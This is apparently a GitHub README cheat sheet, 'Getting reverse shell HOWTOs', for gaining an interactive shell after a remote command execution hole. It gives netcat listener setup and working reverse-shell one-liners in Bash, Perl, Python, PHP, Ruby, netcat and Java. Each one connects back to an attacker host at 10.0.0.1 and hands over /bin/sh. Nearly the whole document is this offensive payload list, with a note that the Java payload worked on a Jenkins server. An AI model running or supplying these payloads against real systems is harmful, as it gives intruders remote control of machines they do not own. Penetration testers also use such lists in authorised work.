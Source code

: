 # Getting reverse shell HOWTOs &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/shell1.png" width="30"/>
After having success with a remote command execution vulnerability, you'll probably wish to get an interactive shell. You will see that your target cannot execute any reverse shell scripting languages; it's limited to the current vulnerable application language.  
  
Before starting, you will need netcat installed on your listener host.
  
**Ubuntu/Debian distrib:** *sudo apt-get install nc -y*  
**Other Linux distros (CentOS, RedHat, ...):** *yum install nc -y*  
  
Now that netcat is successfully installed on your listener host, type: *nc -l -v 4444*  
You will find below different ways in obtaining a reverse shell in multiple langs.  
  
## Bash &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/bourne_again.jpg" width="20"/>
Based that your local IP would be *10.0.0.1* and listener port on netcat is *4444*
```
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```
  
## Perl &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/perl.jpg" width="50"/>
```
perl -e 'use Socket;$i="10.0.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
  
## Python &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/python.jpg" width="70"/>
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/php.png" width="40"/>
Assuming that the TCP connection is using file descriptor 3. If it doesn't work, try 4, 5, 6...
  
```
php -r '$sock=fsockopen("10.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
  
## Ruby &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/ruby.png" width="20"/>
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
  
## Netcat &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/netcat.gif" width="80"/>
Most of the time in a prod environment, netcat won't be installed. Still, you can give it a try ;)
  
```
nc -e /bin/sh 10.0.0.1 4444
```
Since there is multiple different versions of netcat, the syntax can be different. If the first one above didn't work, try this:
  
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f
```
  
## Java &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/java.jpg" width="40"/>
Tried it on a Jenkins local server and works like a charm
  
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
